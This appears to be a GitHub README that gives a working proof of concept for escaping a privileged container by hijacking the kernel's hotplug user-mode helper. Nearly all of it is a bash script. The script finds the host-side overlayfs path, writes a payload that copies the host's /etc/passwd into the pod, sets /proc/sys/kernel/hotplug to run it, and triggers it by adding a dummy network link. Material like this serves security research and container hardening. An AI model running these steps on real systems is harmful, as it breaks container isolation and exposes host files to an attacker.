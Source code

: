 # Container Escape via `/proc/sys/kernel/hotplug` 

> Proof-of-concept demonstrating container escape by leveraging the kernel’s hotplug user-mode helper.

---

## Environment Requirements

- Privileged pod/container

## Proof-of-Concept


```bash
# Extract the OverlayFS upperdir path, which maps to a real directory on the host
host_path=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/mounts)

# Create a payload script that will be executed by the kernel
echo '#!/bin/sh' > /tmp/payload.sh

# The payload reads sensitive host information and writes it to a file inside the pod
echo "cat /etc/passwd > $host_path/output.txt" >> /tmp/payload.sh

# Make the payload executable
chmod a+x /tmp/payload.sh

# Set the kernel's hotplug handler to point to the created payload 
echo "$host_path/tmp/payload.sh" > /proc/sys/kernel/hotplug

# optional: install -y iproute2

# Trigger a hotplug event to invoke the kernel's helper (our payload)
ip link add dummy0 type dummy

```
## Demo

[![asciicast](https://asciinema.org/a/HPAA6MEJhK5xx7aOev0a5f0DV.svg)](https://asciinema.org/a/HPAA6MEJhK5xx7aOev0a5f0DV)

